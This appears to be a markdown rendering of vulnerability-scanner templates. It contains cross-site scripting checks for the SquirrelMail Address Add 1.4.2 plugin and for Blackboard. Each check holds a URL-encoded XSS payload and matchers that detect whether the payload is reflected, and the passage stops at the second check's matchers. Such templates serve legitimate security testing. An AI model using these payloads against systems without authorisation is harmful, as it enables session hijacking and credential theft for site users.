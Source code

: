 # SquirrelMail Address Add 1.4.2 - Cross-Site Scripting
## Description
- SquirrelMail Address Add 1.4.2 plugin contains a cross-site scripting vulnerability. It fails to properly sanitize user-supplied input, thus allowing an attacker to execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - medium
- tags - edb,xss,squirrelmail,plugin
## Requests
- Method - GET
### URL
- {{BaseURL}}/plugins/address_add/add.php?first=HOVER%20ME!%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E
### Matchers

**Type - status**
- status
    1. 200

**Type - word**
- part - body
- words
    1. \</script>\<script>alert(document.domain)\</script>

**Type - word**
- part - header
- words
    1. text/html

---
# Blackboard - Cross-Site Scripting
## Description
- Blackboard contains a cross-site scripting vulnerability. An attacker can execute arbitrary script in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - high
- tags - blackboard,parentlink,xss
## Requests
- Method - GET
### URL
- {{BaseURL}}/main/blank?message_success=%3Cimg%20src%3Dc%20onerror%3Dalert(8675309)%3E
- {{BaseURL}}/main/blank?message_error=%3Cimg%20src%3Dc%20onerror%3Dalert(8675309)%3E
### Matchers
